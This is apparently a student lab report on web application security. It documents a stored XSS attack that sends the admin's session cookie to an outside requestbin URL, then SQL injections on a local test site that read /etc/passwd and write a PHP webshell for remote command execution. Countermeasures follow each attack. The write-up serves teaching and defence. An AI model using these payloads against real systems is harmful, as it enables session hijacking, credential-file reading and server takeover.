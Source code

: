 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comments section on the home page. Indeed, there was no filtering or encoding of any kind of HTML charaters or quotes.
This allowed us to inject some javascript code in the field to display a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator of the website checking the comments page.

#### Description of the attack

The command that we decided to insert in the "text" field to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('<img onerror="this.onerror=null;this.src=backup_url;" src="http://en8mgdzvtyrzg.x.pipedream.net/?'+document.cookie+'  "/>');</script>
```

When the administrator checks the comments page, the first source of the image will send his cookie (via the `document.cookie`) to our requestbin url where it can be easily retrieved.

![Requestbin used to hijack the administrator's cookie ](assets/pipedream.png)

The thing is, the victim will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror` attribute of the `<img/>` tag to prevent showing a broken image which could be suspicious.

![Dog picture viewed by the administrator ](assets/dog-picture.PNG)

All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value set in the administrator's cookie.

![Session hijacking via manual modification of the PHPSESSID cookie ](assets/chrome-dev-tool.png)

Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:

![Administrator page ](assets/admin-panel.png)

To prevent this attack from happening, we should sanitize user's inputs in the comments' text field. 
We can add escaping/encoding functions in the back-end source code to prevent special HTML characters usage. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

##### Client-side

Disable javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly, so it can't be a solution on the long run.

Install Web browser extensions:
It is possible to install plugins like Firefox NoScript, among many others, to specify the websites that should be trusted by the browser to execute scripts.

##### Server-side

HttpOnly flag: 
One thing that could be done to prevent cookie stealing is to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is, we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding functions:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charaters that could be used to inject code in the input fields.


Use Content Security Policy (CSP):
A CSP could also be useful to prevent the execution of potential XSS scripts. By specifiying an HTTP `Content-Security-Policy` header in the responses from the web server, we can, for exemple, specify to the web browser of the client to only load content from specific sources.
If we specify `Content-Security-Policy: script-src 'self'; img-src *` in the HTTP header of the responses, we can indicate to the web browser to only load scripts from the same origin (domain) as the rest of the web page, but accept to load any image from any other source for exemple.
In a way, it is also a client-side countermeasure because the web browser needs to be CSP compatible for the rules to take effect and for it to execute only the scripts from an authorized origin.


Use Iframe protection mechanisms:
One possible type of attack that could be used by a malicious individual is to load the web page into an iframe HTML tag of his own evil website and try to steal informations from clients visiting it without them even being aware that they are not on the right website.
To prevent this possibility from happening, Javascript-based Frame busters could be implemented to block the display of the web page in case of Framing by another website. It is also possible to use the header `X-Frame-Options` in the HTTP responses to specify that a web page shouldn't be loaded inside an iframe tag of another website.
In this case, a warning message appears in the Framed loaded web page to warn the client.
For exemple, if we specify `X-Frame-Options: DENY` as value for the header, no website could be able to Frame the web page without warning the client.
The X-Frame-Options countermeasure is, as for the CSP countermeasure, a bit client-sided because the client's web browser needs to be X-Frame-Options compatible for it to work.

### Part 2: SQL Injection

#### Known Vulnerabilities

First of all, we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then, we found that the URL was not sanitized, meaning that some commands can be executed through the path. In this lab, we need to perfom SQL injections, meaning that we will execute SQL queries inside the URL.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads the `/etc/passwd` file and displays its content into the update form, as seen in the image below:

![Display passwd file in a form](assets/passwd-file.png)

In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server with the mysql user's rights, which has more privileges than the default www-data user.
Thus, it is possible to display sensitive files' content. For example, in this case, the file containing informations about users registered on the system. Before we would also have found passwords in this file, but modern UNIX systems now use the `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will create in our `css` folder, which has write access for everyone, a php file to launch a shell on the server. We can see it on the image below :

![Webshell file located in css folder](assets/webshell-file.png)

Our file contains php code that will fetch the "cmd" parameter in our url, and run it through a shell:

```php
<?php
    system($_GET['cmd']);
?>

```

Now that we have our php file on the server, we can execute code remotely:

![Request whoami executed remotely](assets/whoami-req.png)

![Request uname executed remotely](assets/uname-req.png)

Note that the webshell file belongs to mysql, but when we run the command `whoami` through the web application, it seems that we are logged in as www-data user, which is the standard user that is often reserved for remote users on web apps in Apache. It has few rights on the system but if we modify a little bit our previous URL that writes a php file, we could, for example, activate the SUID flag on the file. By setting our real user ID as the effective user ID, we could send commands using mysql user, which has advanced rights on the system. 

#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning that instead of injecting values directly in the command, it uses inputs as parameters. Those are then formatted with only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers, if an error occurs, it is sometimes thrown back to the client's browser. This could allow a potential attacker to use this information disclosure (like tables structure for example) to break the system.
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, can also be done by an attacker. We have a case here by being able to read the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database but forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application where you can specify every action that are allowed on each table by creating prepared functions. You use them instead of querying directly your database. Any request which is not part of a procedure would be rejected because, in a standard usage, you would not need to do this action.

##### Operating System

- Change permissions on the server: In web servers, it is mostly recommended that directories' permissions should be 755 and 644 for the files. Permissions 777 are not recommended because they give too many rights. When we created the webshell, we used the writing rights that were allowed in the css folder. Those rights don't have a purpose during normal execution so, by removing this permission, we would ensure that users can't write in this folder.




### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
3. [Content Security Policy (CSP), MDN Web Docs Mozilla](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
4. [How to Prevent Framing Attacks, Hackmanit](https://www.hackmanit.de/en/blog-en/81-how-to-prevent-framing-attacks)
